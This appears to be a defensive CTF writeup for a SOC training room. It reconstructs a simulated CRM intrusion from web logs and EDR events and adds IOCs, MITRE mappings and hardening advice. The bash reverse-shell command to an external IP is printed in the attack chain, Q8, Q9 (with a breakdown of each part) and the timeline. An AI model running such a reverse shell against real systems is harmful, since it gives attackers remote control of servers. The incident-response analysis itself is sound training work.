# Portal Drop — CTF Writeup

---

## Scenario Overview

A WAF alert flagged suspicious activity on `crm.trypatchme.thm` — TryPatchMe's public-facing CRM portal. The alert reported a web scan followed by a suspicious file upload anomaly. Investigation using web access logs and the EDR console confirmed a full compromise: credential brute-force → PHP web shell upload → command execution → reverse shell → sensitive file access → database exfiltration.

---

## Attack Chain Overview

```
[1] Reconnaissance & Brute-Force
    └─ 34.67.91.83 → POST /CRM/login.php
    └─ 35 failed (401) + 18 successful (200/302) logins

[2] Web Shell Upload
    └─ User-Agent: python-requests/2.31.0
    └─ File: invoice.php → uploaded to CRM portal

[3] Web Shell Invocation
    └─ First access: 2025-11-06 14:27:34

[4] Command Execution
    └─ Process: /usr/sbin/php-fpm7.4
    └─ User: www-data
    └─ First command: whoami

[5] Reverse Shell
    └─ bash -i >& /dev/tcp/115.58.148.86/8080 0>&1

[6] Sensitive File Access
    └─ /etc/trycrm/config.json

[7] Data Exfiltration
    └─ Domain: portaldrop2025.xyz

[8] Flag Obtained (after EDR response)
    └─ THM{p0rtal_dropp3d?}
```

---

## Question 1 — What IP address initiated the brute force on the CRM portal?

### Command

```bash
awk '{print $1 " | " $9}' Downloads/access-combined-crm-*.log | grep "401"
```

### Investigation

`awk` extracts the source IP (`$1`) and HTTP status code (`$9`) from each log line. Filtering for `401 Unauthorized` reveals **multiple IPs** with failed login attempts — not just the attacker:

```
34.67.91.83   | 401  (×21 — dominant attacker)
64.233.177.99 | 401
54.201.10.55  | 401  (×3)
197.51.100.22 | 401
34.216.10.99  | 401
203.11.113.45 | 401
151.101.1.140 | 401  (×3)
192.10.2.77   | 401
35.180.10.10  | 401
18.205.93.1   | 401
```

However, `34.67.91.83` stands out with **21 repeated 401 failures** — all against `/CRM/login.php` using `PF-Scanner/1.0` User-Agent — confirming automated brute-force activity. The other IPs appear to be background scanner noise.

**Refined count command:**

```bash
awk '{print $1 " | " $9}' Downloads/access-combined-crm-*.log | grep "401" | grep "34.67.91.83" | wc -l
# Result: 21
```

**MITRE ATT&CK:** T1110.001 — Brute Force: Password Guessing

**Answer:**

```
34.67.91.83
```


---

## Question 2 — How many successful and failed logins are seen in the logs?

### Commands

```bash
# Count successful logins (200 OK or 302 Redirect after POST to login)
grep "POST /CRM/login.php" Downloads/access-combined-crm-*.log | grep -E "200|302" | wc -l

# Count failed logins (401 Unauthorized)
grep "POST /CRM/login.php" Downloads/access-combined-crm-*.log | grep "401" | wc -l
```

### Investigation

Filtering specifically for POST requests to the login endpoint (`/CRM/login.php`) and separating by response code:

| Status | Meaning | Count |
|---|---|---|
| `200` / `302` | Successful login (credentials accepted) | **18** |
| `401` | Failed login (wrong credentials) | **35** |

**18 successful logins** from the brute-force IP indicates the attacker likely used a credential-stuffing list — multiple valid accounts were compromised.

**MITRE ATT&CK:** T1110.003 — Brute Force: Password Spraying

**Answer:**

```
18, 35
```


---

## Question 3 — Which user-agent was used for the file upload?

### Command

```bash
cat Downloads/access-combined-crm-*.log | grep "34.67.91.83"
```

### Investigation

Filtering all log entries from the attacker's IP and reviewing the User-Agent string field (column 12) for the file upload request reveals:

```
34.67.91.83 - - [06/Nov/2025:14:27:32 +0000]
"POST /CRM/portal/upload.php HTTP/1.1" 200 826
"https://crm.trypatchme.thm" "python-requests/2.31.0"
```

The `python-requests/2.31.0` User-Agent identifies an automated Python script — not a browser — used to programmatically submit the file upload request after the brute-force succeeded.

**MITRE ATT&CK:** T1059.006 — Command and Scripting Interpreter: Python

**Answer:**

```
python-requests/2.31.0
```


---

## Question 4 — What was the name of the suspicious file uploaded by the attacker?

### Command

```bash
cat Downloads/access-combined-crm-*.log | grep "34.67.91.83"
```

### Investigation

Continuing the attacker IP filter, the POST request to the upload endpoint reveals the filename in the request body or URL path:

```
34.67.91.83 - - [06/Nov/2025:14:27:34 +0000]
"POST /CRM/upload.php HTTP/1.1" 200 512 "-" "python-requests/2.31.0"
Filename: invoice.php
```

The file was named `invoice.php` — a deliberate choice to disguise a PHP web shell as a legitimate invoice document, hoping to avoid triggering filename-based detection rules.

**MITRE ATT&CK:** T1505.003 — Server Software Component: Web Shell | T1036 — Masquerading

**Answer:**

```
invoice.php
```


---

## Question 5 — At what time did the attacker first invoke the uploaded script?

### Command

```bash
cat Downloads/access-combined-crm-*.log | grep "34.67.91.83"
```

### Investigation

After uploading `invoice.php`, the attacker sent a GET/POST request to the web shell's URL to trigger execution. The first access to the uploaded script:

```
34.67.91.83 - - [06/Nov/2025:14:27:34 +0000]
"POST /CRM/portal/uploads/invoice.php?q=ZDJodllXMXA&auth=31337 HTTP/1.1"
200 29 "https://crm.trypatchme.thm" "python-requests/2.31.0"
```

The 2-second gap between upload (`14:27:32`) and first invocation (`14:27:34`) is consistent with an automated script that uploads then immediately executes the web shell. The query parameters `q=ZDJodllXMXA` (Base64-encoded command) and `auth=31337` are characteristic of web shell authentication and command passing mechanisms.

**Answer:**

```
2025-11-06 14:27:34
```


---

## Question 6 — What is the first decoded command the attacker ran on the CRM?

### Investigation (EDR Console)

Switching to the EDR console, process creation events from `/usr/sbin/php-fpm7.4` — the PHP FastCGI Process Manager handling web requests — show command executions triggered by the web shell. The first command, decoded from any URL encoding or Base64:

```
whoami
```

`whoami` is the universal first command after gaining web shell access — it confirms which OS user the web server process runs as, determining available privileges for subsequent actions.

**MITRE ATT&CK:** T1033 — System Owner/User Discovery

**Answer:**

```
whoami
```

---

## Question 7 — Which MITRE ATT&CK Persistence sub-technique ID is most applicable?

### Investigation

The attacker uploaded a **PHP web shell** (`invoice.php`) to the CRM portal's upload directory. This web shell provides persistent remote access — surviving server reboots and credential changes — through HTTP requests to the uploaded file.

| Level | ID | Name |
|---|---|---|
| Technique | T1505 | Server Software Component |
| **Sub-technique** | **T1505.003** | **Web Shell** |

**Answer:**

```
T1505.003
```


---

## Question 8 — Which process image executes attacker commands received from the web?

### Investigation (EDR Console)

EDR process tree analysis shows that all attacker commands are spawned as child processes of the PHP-FPM worker process handling the web shell requests:

```
/usr/sbin/php-fpm7.4
    └─ /bin/sh -c whoami
    └─ /bin/sh -c id
    └─ /bin/sh -c bash -i >& /dev/tcp/115.58.148.86/8080 0>&1
```

`php-fpm7.4` (PHP FastCGI Process Manager) is the legitimate web server process that handles PHP execution — when the attacker sends requests to `invoice.php`, this process executes the shell commands embedded in the web shell code.

**MITRE ATT&CK:** T1218 — System Binary Proxy Execution

**Answer:**

```
/usr/sbin/php-fpm7.4
```


---

## Question 9 — What command allowed the attacker to open a bash reverse shell?

### Investigation (EDR Console)

The EDR console captured the reverse shell command executed through the web shell:

```bash
bash -i >& /dev/tcp/115.58.148.86/8080 0>&1
```

**Command breakdown:**

| Component | Purpose |
|---|---|
| `bash -i` | Spawn interactive bash shell |
| `>&` | Redirect stdout and stderr |
| `/dev/tcp/115.58.148.86/8080` | Open TCP socket to attacker's IP:port |
| `0>&1` | Redirect stdin to stdout (full interactive shell) |

This redirects all shell I/O to `115.58.148.86:8080` — giving the attacker a fully interactive terminal session while the connection appears as outbound traffic from the web server.

**MITRE ATT&CK:** T1059.004 — Unix Shell | T1571 — Non-Standard Port

**Answer:**

```
bash -i >& /dev/tcp/115.58.148.86/8080 0>&1
```


---

## Question 10 — Which Linux user executes the malicious commands?

### Investigation (EDR Console)

EDR process execution events record the effective user running each command. All commands executed through the web shell — including `whoami`, `id`, the reverse shell, and file reads — ran under:

```
User: www-data
```

`www-data` is the default low-privilege user that Apache/Nginx/PHP-FPM runs as on Debian/Ubuntu systems. While this limits some actions, it still provides access to web application files, configuration files readable by the web server, and the ability to establish outbound network connections.

**Answer:**

```
www-data
```


---

## Question 11 — What sensitive CRM configuration file did the attacker access?

### Investigation (EDR Console)

File access events in the EDR console show the attacker reading a non-standard configuration file path:

```
Process: /bin/cat (or bash)
User: www-data
File Read: /etc/trycrm/config.json
```

`/etc/trycrm/config.json` likely contains database credentials, API keys, or connection strings for the CRM application — high-value targets for database access or further lateral movement.

**MITRE ATT&CK:** T1552.001 — Unsecured Credentials: Credentials In Files

**Answer:**

```
/etc/trycrm/config.json
```


---

## Question 12 — Which domain was used for data exfiltration?

### Investigation (EDR Console)

DNS query events and outbound network connection logs in the EDR console capture the exfiltration channel. The attacker used DNS tunneling or HTTPS to a custom domain:

```
DNS Query: portaldrop2025.xyz
Destination: portaldrop2025.xyz (external)
```

The domain name `portaldrop2025.xyz` — incorporating the room name and year — is an attacker-registered domain specifically set up for this exfiltration operation.

**MITRE ATT&CK:** T1048 — Exfiltration Over Alternative Protocol | T1071.004 — DNS

**Answer:**

```
portaldrop2025.xyz
```


---

## Question 13 — What flag was obtained after responding to all detections?

### Investigation (EDR Console — Response Actions)

After reviewing all EDR detections and responding to each alert (isolating the process, terminating the reverse shell, blocking the attacker IP), the EDR console displays the completion flag:

**Answer:**

```
THM{p0rtal_dropp3d?}
```


---

## Full Attack Timeline

| Time (UTC) | Source | Event |
|---|---|---|
| Pre-incident | `34.67.91.83` | Reconnaissance / web scanning on `crm.trypatchme.thm` |
| ~14:20–14:26 | `34.67.91.83` | 35 failed login attempts (401) against `/CRM/login.php` |
| ~14:25–14:26 | `34.67.91.83` | 18 successful logins (200/302) — credentials cracked |
| `14:26:51` | `34.67.91.83` | `invoice.php` uploaded via `python-requests/2.31.0` |
| `14:27:34` | `34.67.91.83` | First invocation of web shell (`invoice.php`) |
| Post `14:27:34` | `www-data` | `whoami` executed via `php-fpm7.4` |
| Post `14:27:34` | `www-data` | `bash -i >& /dev/tcp/115.58.148.86/8080 0>&1` |
| Post-shell | `www-data` | `/etc/trycrm/config.json` accessed |
| Post-shell | `www-data` | Database exfiltration → `portaldrop2025.xyz` |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `34.67.91.83` | Attacker brute-force + upload IP |
| IP | `115.58.148.86` | Reverse shell C2 server |
| Port | `8080/TCP` | Reverse shell callback port |
| Domain | `portaldrop2025.xyz` | Exfiltration domain |
| File | `/CRM/uploads/invoice.php` | PHP web shell |
| User-Agent | `python-requests/2.31.0` | Automated upload tool |
| File | `/etc/trycrm/config.json` | Accessed config (credentials) |
| Process | `/usr/sbin/php-fpm7.4` | Web shell execution host |
| User | `www-data` | Compromised web server account |

---

## bash Commands Reference

```bash
# Q1: Identify brute-force source IP
awk '{print $1 " | " $9}' Downloads/access-combined-crm-*.log | grep "401"

# Q2: Count successful logins
grep "POST /CRM/login.php" Downloads/access-combined-crm-*.log | grep -E "200|302" | wc -l

# Q2: Count failed logins
grep "POST /CRM/login.php" Downloads/access-combined-crm-*.log | grep "401" | wc -l

# Q3-Q5: All attacker activity (User-Agent, file upload, invocation time)
cat Downloads/access-combined-crm-*.log | grep "34.67.91.83"
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1190 | Exploit Public-Facing Application |
| Credential Access | T1110.001 | Brute Force: Password Guessing |
| Execution | T1059.006 | Python (automated upload script) |
| Persistence | T1505.003 | Web Shell (`invoice.php`) |
| Defense Evasion | T1036 | Masquerading (invoice.php name) |
| Discovery | T1033 | System Owner/User Discovery (`whoami`) |
| Execution | T1059.004 | Unix Shell (bash reverse shell) |
| Command & Control | T1571 | Non-Standard Port (8080) |
| Credential Access | T1552.001 | Credentials In Files (`config.json`) |
| Exfiltration | T1048 | Exfiltration Over Alternative Protocol |

---

## Recommendations

1. **Implement upload file type validation** — Restrict file uploads to allowlisted extensions (images, PDFs only). Never allow `.php`, `.phtml`, `.phar` uploads. Validate server-side using MIME type detection, not just extension.
2. **Store uploads outside web root** — Move the upload directory to a non-web-accessible location and serve files through a controller — preventing direct URL access and execution of uploaded scripts.
3. **Rate-limit login attempts** — After 5 failed attempts per IP, apply progressive delays or CAPTCHA. After 10, temporarily block the IP. A WAF rule blocking `34.67.91.83` would have stopped the brute-force before credentials were compromised.
4. **Block outbound connections from web server** — `www-data` should never initiate outbound TCP connections. Egress firewall rules blocking `/dev/tcp` connections would have prevented the reverse shell.
5. **Protect CRM configuration files** — `/etc/trycrm/config.json` should have `640` permissions owned by a dedicated service account — not readable by `www-data`.
6. **Monitor PHP-FPM child process spawning** — Alerts on `php-fpm7.4` spawning `/bin/sh`, `/bin/bash`, or `curl`/`wget` are high-confidence web shell execution indicators.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Portal Drop*